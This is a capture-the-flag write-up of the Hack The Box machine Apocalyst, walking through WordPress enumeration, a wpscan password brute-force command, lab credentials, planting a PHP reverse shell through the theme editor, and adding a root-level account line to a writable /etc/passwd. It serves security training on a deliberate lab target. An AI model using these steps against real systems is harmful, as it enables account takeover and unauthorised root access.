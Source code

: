 ```yaml
---
layout: PostSimple
date: 2020-03-10
title:     "Hack The Box - Apocalyst"
tags: ['linux','medium','wordpress']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/1.png)

We are going to pwn Apocalyst from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/57>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP :

Added ``apocalyst.htb`` on ``/etc/hosts`` because its not rendering correctly with IP.

Its a Wordpress site.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/2.png)

So I Started ``Wpscan`` and found and an user.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/3.png)

Started my Gobuster to bruteforce the directories but everything leads to same image, So I used a tool called ``cewl`` to create a wordlist using the webpage and started my Gobuster again with new wordlist and some extra parameters.

> cewl - custom word list generator

Why I did this? Because every directory leads to same image file and I can't check each page so by doing this method we can find something different.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/4.png)

```
-f, --addslash                      Apped / to each request
-l, --includelength                 Include the length of the body in the output
```
From the scan result only ``/Rightiousness/`` has different length when compare to others,
```
/glorification/ (Status: 200) [Size: 157]
/given/ (Status: 200) [Size: 157]
/Rightiousness/ (Status: 200) [Size: 175]
/Job/ (Status: 200) [Size: 157]
/Psalms/ (Status: 200) [Size: 157]
```
Downloaded the image to my machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/5.png)

Used [Steghide](https://github.com/StefanoDeVuono/steghide) to extract the files in the image.

>steghide - a steganography program

It is a wordlists. So we can brute force the user password with ``list.txt``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/6.png)

``wpscan -U falaraki -P ~/CTF/HTB/Boxes/Apocalyst/list.txt --url http://apocalyst.htb/``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/7.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/8.png)

We got the password for the user.
``Username: falaraki, Password: Transclisiation``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/9.png)

Once Logged in, I searched for anyway to get reverse shell and found we can edit the pages in ``Appearance --> Editor``.
I selected one of the page from the templates on the right side of the page.
Changed that to [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)(Don't forgot to change the IP).
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/10.png)

After Uploaded the file, Open the page in new tab and Started my Listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/11.png)

I look at the home directory and found ``.secret`` which looks like base64 encoded.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/12.png)

There is an online tool called [Base64Decode](https://www.base64decode.org/) to decode and it gives us me a password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/13.png)

Logged in with ``SSH`` with `` falaraki : Y0uAINtG37TiNgTH!sUzersP4ss ``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/14.png)

## Privilege Escalation :

Uploaded my Enumeration Script and found this.
```
[!] fst160 Can we write to critical files?................................. yes!
---
/etc/passwd
---
```

Since we have write permission, I created a password using ``openssl`` to create a new user with root permission.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/15.png)

Added ``wolf:46Xd.1NlqFBp.:0:0:root:/root:/bin/bash`` at the bottom.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/16.png)

I'm Root now <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-apocalyst/17.png)


